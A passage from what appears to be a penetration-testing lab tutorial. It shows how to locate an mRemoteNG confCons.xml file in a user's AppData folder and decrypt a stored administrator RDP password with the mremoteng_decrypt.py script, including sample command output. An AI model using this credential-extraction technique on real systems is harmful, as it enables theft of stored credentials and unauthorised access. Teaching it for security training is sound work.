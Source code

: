 ```powershell
PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

Let's look at the contents of the `confCons.xml` file.

### **mRemoteNG Configuration File - confCons.xml**

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

This XML document contains a root element called `Connections` with the information about the encryption used for the credentials and the attribute `Protected`, which corresponds to the master password used to encrypt the document. We can use this string to attempt to crack the master password. We will find some elements named `Node` within the root element. Those nodes contain details about the remote system, such as username, domain, hostname, protocol, and password. All fields are plaintext except the password, which is encrypted with the master password.

As mentioned previously, if the user didn't set a custom master password, we can use the script [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) to decrypt the password. We need to copy the attribute `Password` content and use it with the option `-s`. If there's a master password and we know it, we can then use the option `-p` with the custom master password to also decrypt the password.

### **Decrypt the Password with mremoteng\_decrypt**

```shell-session
$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

Now let's look at an encrypted configuration file with a custom password. For this example, we set the custom password `admin`.

### **mRemoteNG Configuration File - confCons.xml**
